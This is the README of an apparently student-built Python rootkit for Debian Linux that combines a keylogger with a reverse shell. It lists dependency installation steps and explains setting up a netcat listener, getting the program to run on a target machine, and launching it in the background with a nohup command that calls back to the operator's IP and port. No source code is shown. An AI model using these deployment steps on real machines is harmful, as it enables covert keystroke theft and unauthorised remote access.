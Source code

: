 <h1>KEYLOGGER - A rootkit</h1>
<strong>This program is created for educational uses only</strong>

<h3>Authors</h3>
Matthías Dan Flemmingsson<br>
Þorsteinn Sæmundsson<br>
Úlfur Þór Þráinsson

<h3>Description</h3>
Basic rootkit with reverse shell and keylogger on a file system level for Linux(debian).<br>
Project is done as a final project at the university of Iceland for the class Öryggi tölvukerfa(HBV602M)<br>
Program assumes that its run on a Linux(debian) distrobution. Untested or will not run on other operating systems or distrobutions<br>

<h3>Installation - No virtualenviroment</h3>
Have a running version of Python 2.7<br>
Install pip, sudo apt install python-pip<br>
Install python-xlib, pip install python-xlib<br>
Install pyxhook, pip install pyxhook<br>

<h3>Installation - virtualenviroment</h3>
Install pip
Install virtualenviroment, sudo apt-get install virtualenv
Setup virtualenv in a folder, virtualenv -p python2 VENV
Start VENV, source VENV/bin/activate
Install dependencies, pip install -r requirements.txt

<h3>How to use</h3>
Start a netcat on your computer with your ip and some open unused port. Edit startRoot.sh to your ip and same port as it is set to loopback and port 12346 by default.<br>
Open program on target machine in any way(Or local machine), just get it to run.<br>
You can also run the rootkit with "nohup python rootkit.py (IP) (Port) &" if you want to do this manually.<br>

<h3>Some tips for troubleshooting</h3>
If you cant run the program without shellscript orthe shellscript itself wont run do:<br>
1. chmod +x startRoot.sh<br>
2. chmod +x rootkit.py<br>
3. chmod +x keylogger.py<br>
This should get things running for all methods starting the program<br>

<h3>Dependencies</h3>
-Python 2.7<br>
-Pip for python<br>
-python-xlib(pip)<br>
-pyxhook(pip)<br>
-(option)Virtualenv for ease of install of the above, use requirements.txt
